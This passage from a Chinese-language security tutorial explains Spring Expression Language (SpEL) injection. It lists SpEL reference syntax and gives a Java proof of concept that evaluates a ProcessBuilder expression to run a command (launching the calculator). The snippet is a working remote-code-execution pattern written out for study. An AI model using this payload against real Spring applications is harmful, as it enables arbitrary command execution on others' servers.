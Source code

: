 -   `#this`：使用当前正在计算的上下文；
-   `#root`：引用容器的 root 对象；
-   `@something`：引用 Bean

# 二、RCE 飞雷神一段

纯度宝典第一页  
飞雷神一段讲究的是直接 RCE 的艺术。那么也就对应常见的三种方法。

## ProcessBuilder

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

写这一段代码喝了我 2 瓶八颗核桃，拉满了真的拉满了。我们 Processbuilder 真的是太有操作了  
![image.png](assets/1698895942-9942fd8ffbefe1d495c7b0ff6a67ec30.png)
